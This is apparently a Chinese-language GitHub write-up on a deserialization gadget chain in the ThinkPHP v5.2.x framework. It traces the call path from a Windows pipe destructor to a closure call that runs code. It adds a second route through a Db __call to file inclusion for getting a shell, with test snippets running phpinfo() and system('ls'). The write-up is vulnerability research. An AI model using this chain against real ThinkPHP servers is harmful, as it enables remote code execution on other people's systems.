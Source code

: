 ﻿## 思路
前面的利用链借鉴的是v5.1.37中的思路，可以参考文章[thinkphpv5.1.37反序列化利用链挖掘](https://github.com/Dido1960/thinkphp/tree/master/v5.1.37)
```
// 析构方法入手
__destruct() --> removeFiles() --> files_exists($filename)
 
// 可控参数
new windows()->filename
 
// 绝对路径
D:\phpstudy\PHPTutorial\WWW\v52\vendor\topthink\framework\src\think\process\pipes\Windows.php
 ```


file_exists()函数将参数当作字符串处理，可以触发类的__toString()魔术方法

```
// 寻找__toString()的调用链
__toString() --> toJson()--> toArray()
 
//寻找  $可控变量->方法(参数可控) 的点（失败）
$relation->visible($name);
 
// 注意，寻找存在__call()方法且未实现visible()函数的类无果，另辟蹊径，到这之前的利用链与v5.1.37相同
 
//绝对路径
D:\phpstudy\PHPTutorial\WWW\v52\vendor\topthink\framework\src\think\model\concern\Conversion.php
 
```

利用点：think/model/concern/Attribute.php中getValue可函数动态调用函数
```
toArray() --> getAttr($key) --> getValue($name, $value, $relation) --> $closure($value, $this->data)
$closure = $this->withAttr[$fieldName] 
$this->filename = getRealFieldName($name) ，$name为$this->data中的键值
 
//可控参数
$this->withAttr
$this->data
 
//绝对路径
D:\phpstudy\PHPTutorial\WWW\v52\vendor\topthink\framework\src\think\model\concern\Attribute.php
 
//注意，这里Attribute，Conversion为trait，需要寻找复用这两个trait的类，刚好\think\Model复用了，\think\Model为抽象类，不能直接实例化，寻找到子类think\model\Pivot
 
 ```
函数名可控的话，可以利用序列化的匿名函数的姿势进行利用
 ```
$func = function(){phpinfo();};
$closure = new \Opis\Closure\SerializableClosure($func);
$closure($value, $this->data);// 这里的参数可以不用管
 
//注意，这里需要引入\Opis\Closure这个第三方库，具体查看官方文档
https://docs.opis.io/closure/3.x/serialize.html
```

最终的反序列利用链
![在这里插入图片描述](https://img-blog.csdnimg.cn/2019092801111542.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQxODA5ODk2,size_16,color_FFFFFF,t_70)

在默认模块中构造利用点
![在这里插入图片描述](https://img-blog.csdnimg.cn/20190925143232558.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQxODA5ODk2,size_16,color_FFFFFF,t_70)
## POC
构造POC的时候注意在web根目录下引入第三方\Opis\Closure函数库vendor，才能序列化闭包对象，否则会报错

```
//导入
require __DIR__ . '/vendor/autoload.php';
```
https://github.com/Dido1960/thinkphp/tree/master/v5.2.x/poc

## 思路二
前面说__call()方法在\think\Request类中找不到了，可以寻找代替Request的其他类，找到了\think\Db.php中的__call方法
 

```
public function __call($method, $args)
{
    $class = $this->config['query'];
 
    $query = new $class($this->connection);
 
    return call_user_func_array([$query, $method], $args);
}
```

 

 
因为在构造类的时候变量均可控，所以在这里可以调用类的方法，think\Url中存在文件包含
 
 

```
public function __construct(App $app, array $config = [])
{
    $this->app    = $app;
    $this->config = $config;
 
    if (is_file($app->getRuntimePath() . 'route.php')) {
        // 读取路由映射文件
        $app->route->import(include $app->getRuntimePath() . 'route.php');
    }
}
```

如果服务器可上传文件，在知道路径的情况下就可以getshell
![在这里插入图片描述](https://img-blog.csdnimg.cn/20190929013447152.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQxODA5ODk2,size_16,color_FFFFFF,t_70)
本地测试，在D盘目录添加route.php文件

```
<?php
system('ls');
?>
```
## POC2
https://github.com/Dido1960/thinkphp/tree/master/v5.2.x/poc2

## 参考文章
[thinkphp v5.2.x 反序列化利用链挖掘](https://www.anquanke.com/post/id/187332)

